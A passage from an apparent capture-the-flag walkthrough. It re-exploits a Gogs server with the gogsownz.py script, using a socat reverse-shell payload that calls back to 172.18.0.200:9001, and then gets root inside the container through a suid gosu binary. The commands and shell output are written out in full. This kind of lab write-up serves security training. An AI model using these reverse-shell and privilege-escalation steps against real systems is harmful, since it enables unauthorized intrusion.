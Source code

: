 
Since socat is on the host, I’ll re-exploit to get a `socat` reverse shell,
which provides a full tty, which I’ll need:

    
    
    python3 gogsownz.py http://127.0.0.1:3000/ -v --creds 'aogiritest:test@aogiri123' --rce "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.18.0.200:9001" --cleanup --burp
    
    
    
    root@kali# socat file:`tty`,raw,echo=0 tcp-listen:9001
    3713ea5e4353:~/gogs-repositories/kaneki/gogstest.git$ id
    uid=1000(git) gid=1000(git) groups=1000(git)
    

Now I have a shell in the Gogs container as the user git.

## Privesc: Gogs git –> root

In this container, there’s a suid binary, `gosu`:

    
    
    3713ea5e4353:/$ ls -l /usr/sbin/gosu 
    -rws--x--x    1 root     root       1286720 May 24  2017 /usr/sbin/gosu
    

Just running it, it clearly looks like a binary to run things as other users:

    
    
    3713ea5e4353:/$ gosu
    Usage: gosu user-spec command [args]
       ie: gosu tianon bash
           gosu nobody:root bash -c 'whoami && id'
           gosu 1000:1 id
    
    gosu version: 1.10 (go1.7.1 on linux/amd64; gc)
         license: GPL-3 (full text at https://github.com/tianon/gosu)
    

I’ll give one of their examples a spin:

    
    
    3713ea5e4353:/$ gosu nobody:root bash -c 'whoami && id'
    nobody
    uid=65534(nobody) gid=0(root)
    

I can run that to get a root shell:

    
    
    3713ea5e4353:/$ gosu root:root bash
    3713ea5e4353:/# id
    uid=0(root) gid=0(root)
    

Note - that won’t work unless I have a full tty. I could initiate another
reverser shell without a tty.

## Privesc: kaneki_pub –> root
